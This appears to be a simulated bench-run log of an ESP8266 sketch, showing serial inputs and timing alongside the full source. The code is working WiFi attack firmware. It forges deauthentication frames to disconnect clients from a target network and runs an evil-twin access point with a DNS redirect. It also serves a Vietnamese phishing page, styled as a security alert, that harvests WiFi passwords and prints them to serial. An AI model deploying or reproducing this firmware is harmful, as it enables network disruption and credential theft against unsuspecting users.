
Bench run of a sketch on a simulated ESP8266 (NodeMCU). Shown: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). A WiFi scan finds three made-up networks.

Above: at 1.2 s.
1.3 s: "scan\n" received over Serial
At 1.8 s:

4.3 s: "m1\n" received over Serial
At 5.3 s:

5.8 s: "m2\n" received over Serial
At 6.4 s:

7.3 s: "stop\n" received over Serial
At 8.1 s:

8.8 s: "s:\n" received over Serial
At 9.9 s:

10.3 s: "x:\n" received over Serial
At 11.0 s:


Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 4.3 s, the serial monitor: prints a new line at once (image 2)
- after the input at 5.8 s, the serial monitor: prints a new line at once (image 3)
- after the input at 7.3 s, the serial monitor: prints a new line at once (image 4)
- after the input at 8.8 s, the serial monitor: prints a new line at once (image 5)
- after the input at 10.3 s, the serial monitor: prints a new line at once (image 6)

The sketch:

main.ino
```cpp
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

extern "C" {
  #include "user_interface.h"
}

// --- CẤU HÌNH ---
const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 4, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

int currentMode = 0; // 0: Idle, 1: Evil Twin, 2: Deauth
String targetSSID = "WiFi_Bao_Tri_He_Thong";
int targetChannel = 1;
uint8_t target_mac[6] = {0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF}; // Mặc định Broadcast

// Hàm gửi gói tin Deauth
void sendDeauth() {
  uint8_t packet[26] = {
    0xC0, 0x00, 0x3a, 0x01, // Frame Control
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, // Destination (All)
    target_mac[0], target_mac[1], target_mac[2], target_mac[3], target_mac[4], target_mac[5], // Source (Router thật)
    target_mac[0], target_mac[1], target_mac[2], target_mac[3], target_mac[4], target_mac[5], // BSSID (Router thật)
    0x00, 0x00, 0x01, 0x00 // Sequence
  };
  wifi_send_pkt_freedom(packet, sizeof(packet), 0);
}

// Hàm khởi tạo WiFi Bẫy (Evil Twin)
void startAP() {
  WiFi.softAPdisconnect();
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(targetSSID.c_str(), NULL, targetChannel);
  Serial.println("\n[+] Da tao WiFi bay: " + targetSSID + " (Kenh " + String(targetChannel) + ")");
}

// Hàm quét mạng
void scanWiFi() {
  Serial.println("\n[*] Dang quet WiFi...");
  int n = WiFi.scanNetworks();
  if (n == 0) Serial.println("Khong tim thay mang.");
  else {
    for (int i = 0; i < n; ++i) {
      Serial.printf("[%d] %s | Ch:%d | %s | %ddBm\n", i, WiFi.SSID(i).c_str(), WiFi.channel(i), WiFi.BSSIDstr(i).c_str(), WiFi.RSSI(i));
      delay(10);
    }
    Serial.println("--> Go 'x:SO_THU_TU' de chon muc tieu.");
  }
}

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_AP_STA);
  startAP();

  // Trang web lừa đảo
  String html = "<html><head><meta charset='utf-8'><meta name='viewport' content='width=device-width, initial-scale=1'></head>"
                "<body style='text-align:center;font-family:sans-serif;margin-top:50px;'>"
                "<h2>Hệ Thống Cảnh Báo Bảo Mật</h2>"
                "<p>Phát hiện truy cập bất thường. Vui lòng xác thực mật khẩu WiFi để mở khóa Internet.</p>"
                "<form action='/post' method='POST'>"
                "<input type='password' name='pw' style='padding:10px;width:80%;' placeholder='Nhập mật khẩu WiFi...'><br><br>"
                "<input type='submit' value='Xác Thực Ngay' style='padding:10px;background-color:red;color:white;border:none;'>"
                "</form><p style='color:grey;font-size:12px;'>Support ID: 8991-FPT-VNPT</p></body></html>";

  webServer.on("/", [html]() { webServer.send(200, "text/html", html); });

  webServer.on("/post", HTTP_POST, []() {
    String p = webServer.arg("pw");
    Serial.println("\n\n=================================");
    Serial.println("[!!!] HUP DUOC PASS: " + p);
    Serial.println("=================================\n");
    webServer.send(200, "text/html", "<h1 style='text-align:center;'>Dang kiem tra... Vui long cho 2 phut.</h1>");
  });

  dnsServer.start(DNS_PORT, "*", apIP);
  webServer.begin();
  wifi_promiscuous_enable(1); // Bật chế độ tiêm gói tin

  Serial.println("\n--- EVIL COMBO READY ---");
  Serial.println("Lenh: scan, x:ID, s:NAME, m1 (Twin), m2 (Deauth), stop");
}

void loop() {
  // Đọc lệnh từ App Serial
  if (Serial.available()) {
    String cmd = Serial.readStringUntil('\n');
    cmd.trim();

    if (cmd == "scan") { scanWiFi(); }
    else if (cmd == "m1") { currentMode = 1; Serial.println("-> Mode: EVIL TWIN (Tha thinh)"); }
    else if (cmd == "m2") { currentMode = 2; Serial.println("-> Mode: DEAUTH (Dam)"); }
    else if (cmd == "stop") { currentMode = 0; Serial.println("-> STOP All"); }
    else if (cmd.startsWith("s:")) {
      targetSSID = cmd.substring(2);
      startAP();
    }
    else if (cmd.startsWith("x:")) {
      int id = cmd.substring(2).toInt();
      if(id >= 0) {
        targetChannel = WiFi.channel(id);
        String bssid = WiFi.BSSIDstr(id);
        // Lưu MAC mục tiêu
        sscanf(bssid.c_str(), "%hhx:%hhx:%hhx:%hhx:%hhx:%hhx", &target_mac[0], &target_mac[1], &target_mac[2], &target_mac[3], &target_mac[4], &target_mac[5]);
        wifi_set_channel(targetChannel);
        startAP(); // Khởi động lại AP trên kênh mới
        Serial.println("[+] Da khoa muc tieu: " + WiFi.SSID(id));
      }
    }
  }

  // Xử lý chế độ
  if (currentMode == 1) { // Evil Twin
    dnsServer.processNextRequest();
    webServer.handleClient();
  }
  else if (currentMode == 2) { // Deauth
    // Gửi 10 gói rồi nghỉ xíu để còn nhận lệnh stop
    for(int k=0; k<10; k++) { sendDeauth(); delay(2); }
    webServer.handleClient();
  }
}
```
